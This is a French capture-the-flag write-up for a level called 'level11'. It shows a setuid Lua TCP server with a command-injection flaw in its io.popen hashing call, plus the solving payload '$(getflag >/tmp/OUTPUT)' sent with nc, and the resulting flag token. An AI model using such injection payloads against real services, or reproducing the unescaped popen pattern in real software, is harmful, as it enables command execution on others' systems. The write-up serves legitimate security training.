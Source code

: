 # level11

### Observations
##### J'affiche le programme '~/level11.lua':
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

##### Détails du programme:
```bash
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

Je me rend compte que ce programme est exécuté par défaut en tant qu'utilisateur 'flag11' grâce à la commande:
```sh
ps aux | grep flag11
```

##### Entrées du programme:
```lua
string mot_de_passe
```

##### Fonctionnement:
Le programme est un serveur tcp qui tente de hasher la chaîne de caractères entrée par l'utilisateur. \
Il compare ensuite la chaîne hashée avec une chaîne prédefinie pour afficher différents messages inutiles. 

> Le serveur est hebergé sur l'addresse ip '127.0.0.1' avec le port '5151'.

> Le serveur est exécute en arriere-plan gràce a cron par defaut.

##### Conclusions:
La fonction hash a une vulnérabilité qui nous laisse exécuter du code shell comme nous le voulons. \
Vu que ce programme est exécuté par l'utilisateur 'flag11' par défaut nous pouvons avoir accès à son flag.

> La ligne suivante est la cause de la vulnérabilité: \
> prog = io.popen("echo "..pass.." | sha1sum", "r")

### Résolution
J'effectue une commande qui permet d'obtenir le résultat de la commande 'getflag' une fois dans le programme. \
Par la suite je redirige la sortie de cette dernière dans un fichier accessible car je ne pouvais pas la voir autrement. \
J'affiche ensuite le contenu de ce fichier.

#### commandes:
```sh
nc 127.0.0.1 5151 <<<'$(getflag >/tmp/OUTPUT)'
cat /tmp/OUTPUT
```

**token :** fa6v5ateaw21peobuub8ipe6s